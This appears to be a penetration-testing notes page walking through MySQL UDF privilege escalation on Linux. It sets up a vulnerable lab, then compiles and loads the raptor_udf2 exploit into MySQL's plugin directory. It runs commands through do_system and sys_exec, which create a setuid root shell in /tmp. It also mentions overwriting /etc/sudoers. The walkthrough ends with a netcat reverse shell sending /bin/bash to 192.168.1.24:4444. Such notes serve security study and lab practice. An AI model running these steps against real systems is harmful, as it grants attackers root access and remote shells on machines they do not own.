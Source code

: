 # MySQL UDF

## Preparing system for test

for testing purposes you can make your mysql service vulnerable manually

To configure this vulnerability on Kali to test run the following commands.

####   `chown -R root:root /var/lib/mysql  nano /etc/mysql/mariadb.conf.d/50-server.cnf  Change user=mysql to user=root and save the file  service mysql restart`

## Find which user the mysql servie is running as

in some situations we have a mysql running as root which we can use for privs. first we have to determin the commands that we can use in mysql.mysql has a module called UDF\(User-Defined Function\) which lets us run commands as the current user which myssql is runnung as. so whit this in mind we might be able to run root commands from mysql.

first we have to see if mysql is running as root:

  
 `ps aux | grep mysql`

![](../../.gitbook/assets/udf1.png)

its running as root.login:

`mysql -u root  
 use mysql; >>> mysql is the database  
 select * from mysql.func; >>> search for udf`



![](../../.gitbook/assets/udf2.png)

## if the mysql service already has the function we can skip exploit part:

now we use udf to copy /bin/sh to /tmp and make it executable for john to get a root prompt:

`select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');  
 OR  
 select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`

![](../../.gitbook/assets/udf3.png)

exit and go to /tmp

run sh file:

![](../../.gitbook/assets/udf4.png)

## if mysql doesnt have the function already we add it using the exploit:

{% embed url="https://www.exploit-db.com/download/1518.c" %}

{% file src="../../.gitbook/assets/1518.c" %}

the instructions are in exploit itslef

compile on target machine

`gcc -g -c raptor_udf2.c >>> for 32 bit systems  
 gcc -g -c raptor_udf2.c -fPIC >>> for 64 bit  
 gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

This will prompt for the password.

mysql -u root -p &gt;&gt;&gt; press enter without any password

`use mysql;`

now we will need to create a temporary table for us to work with. We need a place to load in the Shared Binary into MySQL.

`create table foo(line blob);`

Now that we have the table setup we will need to insert the contents into the table. We do this because the next step is to export it to a root only directory. Since it was moved over or compiled on the victims machine as a non root user this is the only way to do it.

change the file path

`insert into foo values(load_file('/path/to/the/file/raptor_udf2.so'));`

With the raw binary inside of the table we can select it and dump the contents onto the disk anywhere we like! Note that you can even push the contents of a new /etc/sudoers file and overwrite it!

For a UDF to work we need to find the location of the plugins directory. This is where we need the file to be stored. otherwise you will get an error refering to ‘raptor\_udf2.so’ cannot be found.

Look for the value of plugin\_dir:

`show variables like '%plugin%';`

Use the plugin\_dir as the dump file location:

`select * from foo into dumpfile "/usr/lib/mysql/plugin/raptor_udf2.so";`

If there are no errors you were able to sucessfully push the raw binary of raptor\_udf2.so into the plugins directory owned by root! Now we need to create the function to complete the privelege escalation.

`create function do_system returns integer soname 'raptor_udf2.so';`

Now that this is done we can confirm the functions is present in mysql.

`select * from mysql.func;`

If we see the name do\_system with the type function we are good to go. The only thing left is to actually run the code we want.

`select do_system('nc 192.168.1.24 4444 -e /bin/bash &');`

We now setup our listener and we have a root shell!

